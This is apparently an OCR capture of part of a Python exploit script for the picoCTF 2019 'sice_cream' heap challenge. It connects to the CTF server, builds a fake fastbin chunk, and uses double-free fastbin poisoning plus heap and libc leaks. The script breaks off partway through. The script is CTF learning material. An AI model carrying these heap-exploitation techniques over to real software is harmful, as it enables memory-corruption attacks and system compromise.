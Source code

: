 ```python
# Converts a leaked pointer string into an integer address
def leak2addr(s):
    if s == '':
        return -1
    bytelist = [ord(x) for x in s]
    assert len(bytelist) <= 8
    assert len(bytelist) >= 4
    lsw = bytelist[0:4]
    msw = bytelist[4:8]
    while len(msw) < 4:
    	msw.append(0)
    lsw_val = lsw[0] *1 + lsw[1] *256 + lsw[2] *256*256 + lsw[3] *256*256*256
    msw_val = msw[0] *1 + msw[1] *256 + msw[2] *256*256 + msw[3] *256*256*256
    val = lsw_val + 256*256*256*256 * msw_val
    return val

# Secret function that prints out the contents of a file given by its argument.
PRINT_FILE = 0x400cc4

""" Exploit """
# p = process('./sice_cream', env={"LD_PRELOAD": "/home/alex/CTF/sice/libc.so.6"})
p = remote('2019shell1.picoctf.com', 5033)
p.sendline("~~~~")
wait()

# Our first job is to get a libc leak. We will accomplish this by writing a fake
# fastbin chunk into name and freeing it.
m1 = """
0x602040:    0x0000000000000000    0x00000000000000c1
0x602050:    0x0000000000000000    0x0000000000000000
0x602060:    0x0000000000000000    0x0000000000000000
0x602070:    0x0000000000000000    0x0000000000000000
0x602080:    0x0000000000000000    0x0000000000000000
0x602090:    0x0000000000000000    0x0000000000000000
0x6020a0:    0x0000000000000000    0x0000000000000000
0x6020b0:    0x0000000000000000    0x0000000000000000
0x6020c0:    0x0000000000000000    0x0000000000000000
0x6020d0:    0x0000000000000000    0x0000000000000000
0x6020e0:    0x0000000000000000    0x0000000000000000
0x6020f0:    0x0000000000000000    0x0000000000000000
0x602100:    0x00000000000000c1    0x0000000000000031
0x602110:    0x0000000000000000    0x0000000000000000
0x602120:    0x0000000000000000    0x0000000000000000
0x602130:    0x0000000000000000    0x0000000000000041
"""
# THE LAST CHAR IS REMOVED BECAUSE IT WILL BECOME \n
payload1 = str2payload(m1)[:-1]


# Because creams is directly below name in memory, we use double free fastbin
# poisoning to get the chunk at RETME, which we can use to write SMALLBIN to
# creams[0].
RETME = 0x602130
SMALLBIN = 0x602050
SZ = 56

# Standard double free to coerce malloc to return RETME
buy("", SZ)
# We also need to leak a heap address, and we can do that right after our
# first malloc. By filling name with non-NULL bytes we get rename to leak
# creams[0] and thus calculate HEAPBASE.
flush()
rename("A"*255)
```